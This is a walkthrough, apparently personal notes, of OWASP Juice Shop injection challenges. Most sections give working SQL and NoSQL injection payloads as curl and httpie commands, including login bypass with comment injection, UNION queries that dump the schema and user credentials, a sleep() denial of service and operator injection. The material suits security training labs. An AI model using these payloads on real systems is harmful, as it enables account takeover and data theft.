 # Injection

Resources

* [SQL injection](https://portswigger.net/web-security/sql-injection)
* [NoSQL injection](https://portswigger.net/web-security/nosql-injection)

## Reconnaissance

Intercept all requests and look for a request with parameters to fuzz
```bash
# verify vulnerability
curl -sS -H "Accept: application/json" "http://juiceshop:3000/rest/products/search?q=foo';" | jq
# output
{
  "error": {
    "message": "SQLITE_ERROR: near \";\": syntax error",
    "stack": "Error: SQLITE_ERROR: near \";\": syntax error",
    "errno": 1,
    "code": "SQLITE_ERROR",
    "sql": "SELECT * FROM Products WHERE ((name LIKE '%foo';%' OR description LIKE '%foo';%') AND deletedAt IS NULL) ORDER BY name"
  }
}
```

## Christmas Special

Order the Christmas special offer of 2014

```bash
# find ProductId=10
curl -sS -H "Accept: application/json" "http://juiceshop:3000/rest/products/search?q=2014%'+AND+deletedAt+IS+NOT+NULL));--" | jq

TOKEN="<REDACTED>"

curl http://juiceshop:3000/api/BasketItems/ \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer ${TOKEN}" \
  --data-raw '{"ProductId":10,"BasketId":"6","quantity":1}'
```

## Database Schema

Exfiltrate the entire DB schema definition via SQL Injection

```bash
# Products table has 9 columns, add N static columns in order to match them and fix
# "SQLITE_ERROR: SELECTs to the left and right of UNION do not have the same number of result columns"
curl -sS -H "Accept: application/json" "http://juiceshop:3000/rest/products/search?q=foo%'))+UNION+SELECT+name,sql,'a','b','c','d','e','f','g'+FROM+sqlite_master+WHERE+type='table';--" | jq '.data | map({"id":.id,"name":.name})'
```

## Ephemeral Accountant

Log in with the (non-existing) accountant `acc0unt4nt@juice-sh.op` without ever registering that user

```bash
# trigger error
http http://juiceshop:3000/rest/user/login email=\' password=foo
# output
{
    "error": {
        "message": "SQLITE_ERROR: near \"acbd18db4cc2f85cedef654fccc4a4d8\": syntax error",
        "name": "SequelizeDatabaseError",
        "original": {
            "code": "SQLITE_ERROR",
            "errno": 1,
            "sql": "SELECT * FROM Users WHERE email = ''' AND password = 'acbd18db4cc2f85cedef654fccc4a4d8' AND deletedAt IS NULL"
        },
        "parameters": {},
        "parent": {
            "code": "SQLITE_ERROR",
            "errno": 1,
            "sql": "SELECT * FROM Users WHERE email = ''' AND password = 'acbd18db4cc2f85cedef654fccc4a4d8' AND deletedAt IS NULL"
        },
        "sql": "SELECT * FROM Users WHERE email = ''' AND password = 'acbd18db4cc2f85cedef654fccc4a4d8' AND deletedAt IS NULL",
        "stack": "Error\n    at Database.<anonymous> (/juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:185:27)\n    at /juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:183:50\n    at new Promise (<anonymous>)\n    at Query.run (/juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:183:12)\n    at /juice-shop/node_modules/sequelize/lib/sequelize.js:315:28\n    at process.processTicksAndRejections (node:internal/process/task_queues:95:5)"
    }
}

# add static user to result
http http://juiceshop:3000/rest/user/login email="' UNION SELECT 999,'myUsername','acc0unt4nt@juice-sh.op','myPassword','accounting','','0.0.0.0','','','1','2023-10-28 15:47:25.395 +00:00','2023-10-28 15:47:25.395 +00:00','NULL' FROM Users'--"
```

## Login Admin

Log in with the administrator's user account

```bash
http http://juiceshop:3000/rest/user/login email="admin@juice-sh.op'--"
```

## Login Bender

Log in with Bender's user account

```bash
http http://juiceshop:3000/rest/user/login email="bender@juice-sh.op'--"
```

## Login Jim

Log in with Jim's user account

```bash
http http://juiceshop:3000/rest/user/login email="jim@juice-sh.op'--"
```

## NoSQL DoS

Let the server sleep for some time

```bash
# parameter is executed before being compared
# https://github.com/juice-shop/juice-shop/blob/master/routes/showProductReviews.ts
http "juiceshop:3000/rest/products/sleep(1000)/reviews"
```

## NoSQL Exfiltration 

All your orders are belong to us

```bash
# $where evaluates JavaScript, by default server-side scripting is enabled
# https://github.com/juice-shop/juice-shop/blob/master/routes/trackOrder.ts
http "juiceshop:3000/rest/track-order/1'||true||'"
```

## NoSQL Manipulation

Update multiple product reviews at the same time

```bash
TOKEN="<REDACTED>"

curl http://juiceshop:3000/rest/products/reviews \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer ${TOKEN}" \
  --data-raw '{"id":{"$ne":"1"},"message":"bar"}'
```

## SSTi

Infect the server with juicy malware by abusing arbitrary command execution

```bash
TODO
```

## User Credentials

Retrieve a list of all user credentials via SQL Injection

```bash
curl -sS -H "Accept: application/json" "http://juiceshop:3000/rest/products/search?q=foo%'))+UNION+SELECT+id,username,email,password,role,deluxeToken,totpSecret,isActive,createdAt+FROM+Users;--" | jq '.data'
```
